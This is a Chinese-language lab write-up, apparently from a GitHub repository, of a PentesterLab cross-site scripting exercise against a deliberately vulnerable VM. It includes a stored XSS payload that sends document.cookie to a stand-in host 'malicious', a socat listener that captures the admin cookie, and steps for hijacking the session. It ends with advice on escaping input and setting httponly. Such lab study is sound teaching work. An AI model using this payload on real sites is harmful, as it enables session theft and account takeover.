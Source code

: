 # 跨站脚本(XSS)攻击
## 实验过程
### 漏洞网站准备
- 在[Files for XSS and MySQL FILE](https://pentesterlab.com/exercises/xss_and_mysql_file/attachments)下载iso文件
- 使用虚拟机加载, 配置一块`Host-Only`网卡
- 虚拟机成功运行后, 宿主机(及同网段的虚拟机)可使用虚拟机IP地址访问该漏洞网站
### 设置虚拟机root密码
- `sudo bash`直接进入root模式
- `passwd`设置新的管理员密码
### 查看admin密码
- `cat /var/www/classes/db.php`查看调用的数据库为`blog`, 同时可以查看到管理员的用户名和密码
- `cat /var/www/classes/user.php`查看用户登录时查找的数据库表格`users`
- 登录数据库, `select * from users`, 获得`admin`密码的md5哈希值, 使用在线工具破解获得密码`P4ssw0rd`
- 实际上应该使用`SQL`注入来获得管理员密码, 但本实验重点是`XSS`攻击, 攻击者并非通过使用管理员用户名密码登录来获得管理员权限, 因此只是简单地获得管理员密码来模拟登录
### 普通用户获得admin权限
- 使用`nikto –h server-ipaddr`可查看网站漏洞
  - 用户可通过改变cookie来获得管理员权限<br>
    ![nikto检出漏洞](img/cookies-dangerous.jpg)
- 提交评论`<script>document.write('<img src="http://malicious/?'+document.cookie+'  "/>');</script>`
  - `malicious`为攻击者的IP地址
- `socat TCP-LISTEN:80,reuseaddr,fork -`在攻击者主机上对80端口进行监听
- 使用靶机登录admin账户并查看评论, 正在监听的攻击者就可以获得admin账户的Cookie:<br>
  ![获得Cookie](img/get-cookie.png)
- 获得cookie后, 使用开发者工具-控制台修改`document.cookie`, 无需知道密码即可成功获得管理员权限
## 实验总结
- 用户提交的数据需要经过转义之后才能展示
- `PHPSSID`应设置`httponly`, 避免`Cookie`的滥用